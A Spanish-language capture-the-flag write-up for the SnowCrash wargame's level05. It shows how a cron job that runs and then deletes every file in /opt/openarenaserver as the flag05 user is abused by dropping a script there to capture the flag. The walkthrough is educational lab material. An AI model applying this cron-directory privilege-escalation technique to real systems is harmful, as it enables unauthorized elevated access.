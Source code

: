 ---

### LEVEL05

- Cuando entro encuentro que he tengo un mail
    ```bash
    ssh level05@192.168.1.33 -p4242                                                                                               ─╯
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

    Good luck & Have fun

          192.168.1.33
    level05@192.168.1.33's password:
    You have new mail.
    level05@SnowCrash:~$
    ```

- En `/var/mail/` hay un archivo (level05)
    ```bash
    level05@SnowCrash:~$ ls -la /var/mail/
    total 4
    drwxrwsr-x  1 root mail  60 Mar  5  2016 .
    drwxr-xr-x  1 root root 180 Mar 12  2016 ..
    -rw-r--r--+ 1 root mail  58 Mar 31 19:28 level05
    ```

- cat /var/mail/level05
    ```bash
    level05@SnowCrash:~$ cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ```

- cat /usr/sbin/openarenaserver
    ```bash
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done

    ```
- El script que se ejecuta cada 2 minutos lo que hace es ejecutar todos los archivos que hay en `/opt/openarenaserver/` y luego los borra
- `(ulimit -t 5)` es un comando que limita la ejecución a 5 segundos
- creo en /opt/openarenaserver un exploit con lo siguiente:
    ```bash
    echo "/bin/getflg > /tmp/flag05" > /opt/openarenaserver/exploit
    chmod 777 /opt/openarenaserver/exploit
    ```

- para ver el resultado
    ```bash
    watch -n 0.1 cat /tmp/flag05
    ```
